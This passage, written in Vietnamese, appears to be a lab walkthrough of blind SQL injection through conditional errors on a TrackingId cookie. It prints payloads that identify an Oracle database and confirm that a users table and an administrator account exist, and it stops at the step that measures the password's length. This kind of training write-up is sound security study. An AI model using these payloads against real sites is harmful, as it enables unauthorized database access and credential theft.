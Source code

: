 ![alt text](./img/lab11-2.png)

- Giờ thử vào Burp sau đó thêm ' vào TrackingId để xem web hiển thị như nào:

![alt text](./img/lab11-3.png)

==> Vẫn có lỗi SQLi ở trường trackingId nhưng giờ đã không còn thông báo ```Welcome back!``` nữa mà là điều kiện lỗi khi database không xử lý được.


- Giờ phải dùng câu lệnh:
```CASE WHEN... THEN...ELSE...END```

- Bước 1: Xác định xem database mà server sử dụng là gì (Vì mỗi db sử dụng câu lệnh khác nhau)

Dùng payload:  ```AND (SELECT 1 FROM dual) = 1--```


![alt text](./img/lab11-4.png)

==> Đang dùng database của Oracle.


- Bước 2: Xác nhận xem có tồn tại table có tên users trong db không:

Payload: ```' AND (SELECT 1 FROM users WHERE rownum = 1) = 1--```

![alt text](./img/lab11-5.png)

==>users table exist in db

- Bước 3: Xác nhận xem có tồn tại username tên là administrator trong users table không:

Payload: ```' AND (SELECT 1 FROM users WHERE username = 'administrator' AND rownum = 1) = 1--```

![alt text](./img/lab11-6.png)

==>Có tồn tại username administrator.

Giờ bắt đầu tìm cách tìm ra password của administrator, ta đã biết khi query lỗi sẽ được trả về ```500 internal error```

==>Ta sẽ sử dụng điều kiện để làm nó lỗi

- Bước 4: Xác định độ dài của password:

```